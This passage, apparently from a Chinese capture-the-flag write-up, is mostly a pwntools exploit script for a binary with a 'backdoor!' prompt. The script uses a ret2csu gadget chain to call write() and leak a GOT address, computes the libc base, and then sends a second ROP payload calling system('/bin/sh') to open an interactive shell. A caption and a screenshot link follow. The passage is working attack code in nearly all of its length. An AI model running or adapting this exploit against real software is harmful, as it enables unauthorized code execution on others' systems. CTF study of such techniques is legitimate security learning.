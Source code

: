 ```plain
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call()
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    # csu(0, 1, fun_got, rdx, rsi, rdi, last)
    payload = b""
    payload += p64(csu_end_addr) 
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_front_addr)
    payload += b'a' * 0x38  
    payload += p64(last)    
    return payload 
pop_rdi_ret = 0x401333 
write_got = elf.got['write']
write_plt = 0x401080#elf.plt['write']
ret_addr = 0x40101a
rsi = 0x401331

payload1 = b'a'*0x10+b'\x00'*8 + csu(0,1,1,elf.got['write'],0x30,write_got,0x4011FD)# + p64(rsi) + p64(write_got) + p64(0) + p64(write_plt) + p64(0x4011FD)
#gdb.attach(io)
#pause()
io.sendlineafter('backdoor!',payload1)

write_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(write_addr))


libc_base = write_addr - libc.sym["write"]
system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))

print(hex(libc_base))
print(hex(system))
print(hex(binsh))
payload2 = b"\x00".ljust(0x18,b'a') +p64(ret_addr)+ p64(pop_rdi_ret) +p64(binsh) + p64(system) #
gdb.attach(io)
pause()
io.sendlineafter('backdoor!',payload2)

io.interactive()
```

运行效果：

[![](assets/1705982215-65378ad279f96030c504f5cf80a295dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121162339-613d835e-b836-1.png)
